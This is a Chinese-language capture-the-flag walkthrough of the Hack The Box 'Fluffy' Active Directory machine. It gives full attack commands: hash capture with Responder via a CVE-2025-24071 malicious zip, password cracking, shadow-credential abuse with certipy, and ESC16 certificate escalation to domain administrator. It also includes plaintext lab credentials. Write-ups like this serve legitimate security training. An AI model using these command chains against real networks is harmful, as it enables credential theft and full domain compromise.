# Fluffy #
## nmap探测 ##
#### `nmap -sT --min-rate 10000 -p- 10.10.11.69 -oA nmap/port`


#### `nmap -sT -sC -sV -O -A -p53,88,139,389,445,464,593,636,3268,3269,5985,9389,49668,49689,49690,49693,49710,49718,49759 10.10.11.69 -oA nmap/detail`


#### 绑定hosts
#### `echo 'dc01.fluffy.htb 10.10.11.69' >> /etc/hosts`
#### 作者给了一个初始的账号密码


#### 用enum4linux-ng账号收集一下windows信息
#### `enum4linux-ng -A -u 'j.fleischman' -p 'J0elTHEM4n1990!' 10.10.11.69 -oJ enum`

#### 根据收集的信息用初始账号登录smb的IT目录
#### `smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!`


#### 把Upgrade_Notice.pdf下载到本地


#### 根据cve编号一顿检索，发现[CVE-2025-24071](https://github.com/0x6rss/CVE-2025-24071_PoC)可以利用


#### 会生成一个exploit的zip压缩包(我这里重命名成了www)，启动responder
#### `responder -I tun0 -wvF`
#### 把压缩到传到IT目录下

#### 等一会儿会自动解压，responder会收到一个新的账号hash


#### 使用john破解


## 影子凭证攻击 ##
#### 用这个账号再次执行enum4linux-ng也没发现其他新增的信息
#### 换个方向，收集一下域信息
#### `netexec ldap 10.10.11.69 -u p.agila -p prometheusx-303 --bloodhound -c All --dns-server 10.10.11.69`
#### 导入bloodhound分析得到如下信息


#### p.agila账号可以读写ACCOUNTS组，使用p.agila账号在WINRM_SVC下创建影子凭证
#### `certipy shadow auto -u 'p.agila@fluffy.htb' -p 'xxxxxxxx' -account 'WINRM_SVC'  -dc-ip '10.10.11.69'`

#### （注：如果本机与目标机时间不一样会失败，需要先关闭时间自动同步然后把时间改成和目标机一致）
#### `systemctl stop systemd-timesyncd`
#### `ntpdate -u 10.10.11.69`

#### 影子凭证登录
#### `evil-winrm -i 10.10.11.69 -u winrm_svc -h xxxxxxxxx`


#### 在桌面发现flag
## 提权 ##
#### certipy检测有没有可利用的漏洞
#### `certipy find -username winrm_svc -hashes "xxxxxxxxxxxxxxxxxxxxxxxxxx" -dc-ip 10.10.11.69 -vulnerable`
#### 使用winrm_svc和hash没有检测到东西

#### 在ca_svc下创建影子凭证，再次检测




#### 存在ESC16
#### 直接按照工具给的提权方式操作
#### [ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)
#### 读取ca_svc账号的UPN
#### `certipy account -u 'p.agila@fluffy.htb' -p 'xxxxxxx' -dc-ip '10.10.11.69' -user 'ca_svc' read`


#### 更新UPN为administrator
#### `certipy account -u 'p.agila@fluffy.htb' -p 'xxxxxxx' -dc-ip '10.10.11.69' -upn 'administrator' -user 'ca_svc' update`


#### 再次查看

#### 设置环境变量`export KRB5CCNAME=ca_svc.ccache`
#### ca_svc.ccache是创建影子凭证的时候生成的
#### 请求证书`certipy req -k -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -template 'User'`




#### 获取administrator的hash
`certipy auth -dc-ip '10.10.11.69' -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'`


#### 将ca_svc的UPN还原回去
#### `certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update`

#### evil-winrm登录




